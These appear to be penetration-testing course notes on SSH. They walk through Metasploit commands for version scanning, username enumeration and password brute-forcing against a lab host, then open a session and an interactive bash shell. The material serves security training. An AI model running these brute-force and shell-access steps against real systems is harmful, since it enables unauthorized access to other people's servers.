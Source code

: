 - SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
- It is typically used for remote access to servers and systems.
- SSH uses port 22/tcp by default, however, like other services, it can be configured to use any other open TCP port.
- There are two ways to perform authentication on SSH:
	- Clear-text password
	- Key based authentication (using Public and Private key pair) 
- We can utilize Metasploit Framework auxiliary modules to enumerate the version of SSH running on the target as well as perform brute-force attacks to identify passwords that can consequently provide us remote access to a target.

Practical Demonstration
	- `service postgresql start`
	- `msfconsole`
	- `workspace -a ssh_enum`
	- `setg RHOSTS demo.ine.local`
	- `setg RHOST demo.ine.local`
	- SSH Version Enumeration
		- `search type:auxiliary name:ssh`
		- `use /auxiliary/scanner/ssh/ssh_version`
		- `options`
		- `run`
	- SSH Credential Brute-forcing
		- `search type:auxiliary name:ssh`
		- We can use the `ssh_login` module, if the SSH service is configured to use password authentication.
		- `use auxiliary/scanner/ssh/ssh_login`
		- We can use the `ssh_login_pubkey` module instead, if the SSH service is configured to use Key based authentication.
		- `use auxiliary/scanner/ssh/ssh_login_pubkey`
		- `use auxiliary/scanner/ssh/ssh_login`
		- `options`
		- `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
		- `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt`
		- `run`
		- `sessions`
		- `sessions 1`
		- `/bin/bash -i`
		- `ls`
		- `whoami`
		- `exit`
	- SSH Username Enumeration
		- `use auxiliary/scanner/ssh/ssh_enumusers`
		- `options`
		- `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
		- It is a good idea to perform Username Enumeration before performing the Brute-force attacks, this would result in less login attempts than trying to Brute-force credentials with all the usernames in the wordlist used, making the Brute-force attack faster and somewhat "sneakier".